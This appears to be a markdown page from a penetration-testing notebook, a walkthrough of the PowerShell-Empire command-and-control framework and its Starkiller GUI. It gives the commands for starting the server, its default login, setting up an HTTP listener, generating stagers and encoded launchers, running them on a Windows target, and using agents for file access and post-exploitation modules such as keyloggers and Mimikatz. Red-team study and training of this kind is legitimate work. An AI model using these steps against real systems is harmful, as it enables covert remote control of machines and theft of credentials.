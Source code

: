 # PowerShell-Empire Fundamentals

**PowerShell-Empire** is a pure PowerShell exploittation/post-exploitation framework built on cryptological-secure communications and flexible architecture.\
On the PowerShell side, Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

### Starkiller

Starkiller is a GUI Frontend for the Powershell Empire. It is an Electron application written in VueJS and proved users with an intuitive way of interacting with Empire. \
It is include into Kali Linux.

### Things to know

#### _Listeners_

To allow Stagers to connect to the server, you need to create a Listener for them to connect back to. These Listeners will “listen” for a connection from an Empire Stager and generate an Agent when a Stager connects.

#### _Stagers_

#### Now that your Listener is up and running, you need to create a Stager. A Stager is a piece of code that executes a payload on the target machine, which connects back to your Listener. This payload contains the functionality needed to generate an Agent that lets you remotely control the compromised system while initiating the Encrypted Key Exchange protocol to protect the C2 communication. PowerShell Empire includes several different types of Stagers:

* Malicious scripts (.bat, .hta, .vbs, etc.)
* Dynamic Link Libraries (DLLs)
* Executables (.exe)
* Shellcode
* Microsoft Office macros
* Cross-platform stagers for Linux and macOS

#### Agents

Your Listener and Stager are now created. The final step is to execute the Stager you created on the target system. This will generate a new Agent once it connects back to the Empire Server, which allows you to control the target machine remotely.

First, transfer the Stager you created to the target machine. PowerShell Empire will tell you where this Stager was written to when you ran the `execute` command.



### Getting Start

Start up the empire server

```bash
powershell-empire server
```

In other terminal tab, start up the empire client

```
powershell-empire client
```

When both are connected we can open Starkiller app from Kali search menu.

```bash
stakiller
```

\
To connect starkiller to empire we must logon with this URL (https://localhost:1337 and this credential (empireadmin:password123).



## Use guide Empire Client/Server

### Setup a http listener

```bash
# in the empire client
# use empire http listener
userlistener http

# config host ip and port
set Host IP
set Port PORT

# start listener
execute

# list of listeners
listeners
```

### Setup a stager

```bash
# in the empire client
# return in the empire main page
main

# use empire stager
usestager multi/launcher

# set listener http in stager
set Listener http

# execute the stager
execute
```

Now the empire has generated a encoded powershell command to connect the target at the listener.

Copy the command and execute that in target windows shell.

```bash
# in the empire client
# view connected agents
agents
```

### Interact with the target

Once we have a target connected in our listener, we can interact with it.

```bash
# in the empire client
# select connected agent
interact NAME # name from 'agents' empire table
```

### Use module on target

Once we have in interact mode with target we can use a powershell module for post-explotation phase.

```bash
# in the empire client
# select module
usemodule MODULE_NAME
execute
```





## Use guide Starkiller

#### Listener creation

Click on "create" button and select the **type** (raccomanded http/http\_hop). Set the **IP** with our **kali machine ip**, **port** when we want that listener listen and the **name** of listener. Click on "**Submit**"

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

Now we have a new listener and we can move on a stager creation.

#### Stager creation

Click on "create" button and select the stager type that we want create. \
Tha stager type depend from target OS. In this case we'll use **windows/csharp\_exe**, that consist in a creation of c# executable, because the our target is a Windows System.

Now, set the **listener** that we want use, change the **OutFile** name (is a name of .exe). Click on "**Submit**"

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

The next step is Download a stager (right click on stager just created) and transfer into target machine (for example with a simple python web server).

As soon as the file was trasferred and run as administrator we can see that in the 'Agents' section of starkiller, an agent was created.

AGENT SECTION IMG

Raccomanded action is rename agent name.

#### Agents action

Once we have created a agent we can:

* Intect with it (remote command execution, execute a empire module)
* File browsing (View all file, upload a file, download a file)
* View all task executed on the target system.













